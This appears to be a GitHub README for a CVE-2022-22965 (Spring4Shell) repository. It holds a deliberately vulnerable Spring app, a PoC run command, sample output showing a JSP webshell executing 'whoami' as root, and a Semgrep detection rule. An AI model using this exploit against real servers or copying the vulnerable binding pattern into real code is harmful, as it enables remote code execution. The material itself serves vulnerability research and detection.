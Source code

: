 CVE-2022-22965 - vulnerable app and PoC
---------------------------------------

## Trial & error

```bash
$ docker rm -f rce; docker build -t rce:latest . && docker run -d -p 8080:8080 --name rce rce:latest && sleep 5 && python poc.py
```

### Output example
```
rce
sha256:f626a2190dc0790c610afd4f12a4b2482b6a726d671fdac1432275de89c07cd6
1a048e5725f754d331de9491d0750c4c7a163472dea1fd1554edccfd00d7f6e5
deploy <Response [200]>
webshell <Response [404]>
webshell <Response [404]>
webshell <Response [404]>
webshell <Response [404]>
webshell <Response [500]>
webshell http://localhost:8080/tomcatwar.jsp?cmd=whoami
root
```

## Identification with [Semgrep](https://semgrep.dev/)

```bash
$ semgrep --config=semgrep-rule.yml .
```

### Output example

```
Findings:

  src/main/java/com/example/demo/controller/IndexController.java
     cve-2022-22965
        Semgrep found a match


         14┆ @RequestMapping("/index")
         15┆ public void index(EvalBean evalBean) {
         16┆
         17┆ }

Ran 1 rule on 3 files: 1 finding.
```

## Vulnerable app requirements[^1]

- JDK 9 or above
- Standalone Tomcat (no Embedded Tomcat) with WAR deployment
- Any Spring version before 5.3.18 / 5.2.20 (Spring Boot before 2.5.12 / 2.6.6)
- No blocklist on WebDataBinder / InitBinder
- Parameter bind with POJOs directly (no @RequestBody, @RequestQuery, etc.)
- Writeable file system (e.g webapps/ROOT)

[^1]: Assuming exploits similar to the known PoCs. There might be other gadgets...


## Sources

- https://twitter.com/vxunderground/status/1509170582469943303 / https://github.com/craig/SpringCore0day
- https://github.com/fengguangbin/spring-rce-war
